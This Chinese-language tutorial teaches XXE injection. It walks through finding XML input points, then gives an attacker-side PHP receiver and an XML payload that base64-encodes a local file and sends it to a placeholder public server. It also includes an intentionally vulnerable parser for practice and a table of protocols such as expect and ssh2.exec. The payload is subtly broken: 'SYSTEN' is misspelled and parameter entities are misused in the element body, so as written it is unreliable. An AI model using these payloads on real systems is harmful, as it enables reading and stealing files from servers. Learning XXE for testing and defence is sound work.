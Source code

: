 # XXE实体注入

> 日期：2022/02/13

利用xml的外部实体去访问内网/本机的文件

## 了解xml

```xml
<!-- 声明版本 -->
<?xml version="1.0"?>

<!-- 文档类型定义 -->
<!DOCTYPE abc [
        <!-- 声明实体(可理解为变量)，功能：（使用file协议加载文件内容，暂存到test1中） -->
        <!ENTITY test1 SYSTEM "file://c:/1.txt">
]>

<!-- 引用test1的值 -->
<abc>&test1;</abc>
```

## 漏洞利用流程

1. 抓包或审计开源代码，寻找带xml的传参点
2. - 尝试引起报错，得到泄露的文件路径
   - 尝试填写网站常用路径，系统敏感路径
3. 将恶意xml注入传参点

## xxe数据接收平台

为了导出目标服务器敏感信息，我们需要一台公网服务器部署**数据接收平台**接收数据

- **save.php**（运行在自己的公网服务器）

```php
<?php 
// 将get请求参数a的值追加储存到本地result.txt
file_put_contents('result.txt',$_GET['a'],FILE_APPEND);
```

- **scanFile.xml**（通过传参点发送到目标服务器）

```xml
<?xml version="1.0"?>
<!DOCTYPE ABC [
        <!ENTITY % data SYSTEM 'php://filter/read=convert.base64-encode/resource=c:/1.txt'>
        <!ENTITY % sendToMyServer SYSTEN 'http://123.123.123.123/xxe/save.php?a=%data;'> 
]>
<ABC>%data; %sendToMyServer;</ABC>
```

scanFile.xml解析流程：
1. php伪协议获取内容，暂存到实体data中（伪协议功能：从系统读取文件->base64转码）
2. sendToMyServer实体执行流程：将data中的数据，通过http传递到外网服务器

-----

- **shooting_range.php**（测试靶场，部署到自己电脑内网环境）

```php
<?php
//接收参数
$inputData = $_REQUEST['xml'];
//解析xml
$obj = simplexml_load_string($inputData,'SimpleXMLElement',LIBXML_NOENT);
```



## 不同程序支持的协议

| libxml2 | php            | java   | .net  |
|---------|----------------|--------|-------|
| http    | http           | http   | http  |
| ftp     | ftp            | ftp    | ftp   |
| file    | file           | file   | file  |
|         | https          | https  | https |
|         | php            | jar    |       |
|         | compress.zlib  | netdoc |       |
|         | compress.bzip2 | mailto |       |
|         | data           | gopher |       |
|         | glob           |        |       |
|         | phar           |        |       |
|         | ftps           |        |       |
|         | zip            |        |       |
|         | ssh2.shell     |        |       |
|         | ssh2.exec      |        |       |
|         | ssh2.tunnel    |        |       |
|         | ssh2.sftp      |        |       |
|         | ssh2.scp       |        |       |
|         | rar            |        |       |
|         | ogg            |        |       |
|         | expect         |        |       |


